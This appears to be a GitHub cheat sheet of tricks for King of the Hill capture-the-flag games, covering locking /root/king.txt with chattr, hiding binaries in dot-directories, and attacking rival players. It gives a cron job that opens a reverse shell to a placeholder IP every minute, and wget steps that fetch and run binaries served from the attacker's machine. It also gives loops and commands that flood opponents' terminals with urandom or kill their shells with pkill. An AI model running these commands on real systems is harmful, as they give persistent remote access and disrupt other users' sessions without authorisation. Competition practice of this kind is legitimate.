 # ProtectYourKing.txt
## Make king.txt unwritable
### Using noclobber
```
set -o noclobber /root/king.txt
```
### Using chattr
```
 chattr +ai /root/king.txt
```
If chattr binary is not present on the machine you can download it into your machine and after compiling you can upload into KOTH_machine and use it

Downloading into Local Machine
 ```
wget https://github.com/posborne/linux-programming-interface-exercises/blob/master/15-file-attributes/chattr.c
gcc chattr.c -o chattr
```
Uploading to KOTH_machine
```
python3 -m http.server 8080       //on your local machine start a python server
wget http://yourip:port/chattr   //on the KOTH_machine for download the binary
chmod +x chattr
./chattr +ai /root/king.txt
```
-----------------------------------------------------------------------------
-----------------------------------------------------------------------------
## Use . for creating hidden directory where you can store your binaries
```
mkdir .hidden_folder
cd .hidden_folder
```
-----------------------------------------------------------------------------
-----------------------------------------------------------------------------
## Use Cronjobs for automation
> **Run 'crontab -e' and paste these line**
### Reverse shell
```
* * * * * /bin/sh -i >& /dev/tcp/YOUR_IP/LISTENING_PORT 0>&1
```
### Write to king.txt
```
* * * * * echo "USERNAME" > /root/king.txt >/dev/null 2>&1
```
-----------------------------------------------------------------------------
-----------------------------------------------------------------------------
## Breaking opponent shell
### find opponent pts using these commands
```
who
ps aux | grep pts
w
tty    // find your pts for not breaking you shell accidentally
```
### Spam urandom to opponent shell
```
cat /dev/urandom >/dev/pts/#
```
>  **NOTE: place opponent pts in place of '#'**
### Using script
```
script -f /dev/pts/#
```
### Spam your username to opponent shell
```
while true; do echo 'YOUR_USERNAME' >/dev/pts/#; done 
```
### Kill opponent shell
```
pkill -9 -t pts/#
```
### Using nyancat
Downloading nyancat to local Machine
```
git clone https://github.com/klange/nyancat
cd nyancat/src
make
```
Sending nyancat to KOTH_machine
```
python3 -m http.server 8080        //on your local machine start a python server into 'nyancat/src' folder
wget http://yourip:port/nyancat   //on the KOTH_machine
chmod +x nyancat
./nyancat > /dev/pts/#
```
-----------------------------------------------------------------------------
-----------------------------------------------------------------------------
## while loop Tricks
```
(1). while [[ $(cat /root/king.txt) != "YOUR_USERNAME" ]]; do echo "YOUR_USERNAME" > /root/king.txt; done
(2). while true; do chattr -ia /root/king.txt 2>/dev/null; echo "YOUR_USERNAME" >/root/king.txt 2>/dev/null; chattr +ia /root/king.txt 2>/dev/null; done
```
# Keep connected more coming in future......

